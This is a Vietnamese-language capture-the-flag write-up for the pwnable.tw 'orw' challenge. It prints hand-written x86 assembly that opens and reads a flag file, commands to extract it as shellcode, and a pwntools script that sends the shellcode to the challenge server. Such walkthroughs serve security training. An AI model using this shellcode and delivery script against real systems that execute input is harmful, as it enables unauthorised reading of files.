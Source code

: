 ```yaml
---
layout: post
title:  "[Pwnable.tw][orw]"
date:   2018-05-06 8:31:39 +0700
categories: writeup re
---
```


# [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 ![Kiểu file]({{ site.url }}/assets/orw_file.PNG)

Strings:

 ![Strings]({{ site.url }}/assets/orw_string.PNG)

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA

![Main]({{ site.url }}/assets/orw_main.PNG)

Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()
```
